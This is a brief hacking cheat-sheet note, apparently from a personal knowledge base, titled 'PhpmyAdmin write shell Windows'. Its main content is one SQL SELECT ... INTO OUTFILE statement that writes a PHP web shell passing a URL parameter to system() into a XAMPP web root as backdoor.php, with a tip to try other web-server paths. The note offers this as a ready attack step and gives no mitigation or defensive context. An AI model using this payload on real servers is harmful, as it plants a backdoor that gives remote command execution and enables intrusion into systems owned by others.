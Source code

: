 # PhpmyAdmin write shell Windows
Write a CMD shell into a file with the right permissions. Issue the following select. (Try different paths for different webservers)
```
SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\backdoor.php"
```

# References
- [20221003150553](/zet/20221003150553/) PhpmyAdmin write shell
- ~/kb/hacking/common-commands.md

Tags:
    #assorted

